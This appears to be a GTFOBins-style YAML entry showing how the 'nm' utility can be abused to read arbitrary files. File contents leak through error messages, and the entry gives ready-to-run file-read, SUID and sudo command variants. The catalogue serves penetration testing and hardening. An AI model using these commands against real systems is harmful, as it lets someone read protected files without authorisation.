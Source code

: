 description: The file content is treated as command line options and disclosed through error messages, so this is not suitable for reading arbitrary binary data.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        nm @$LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./nm @$LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo nm @$LFILE
---
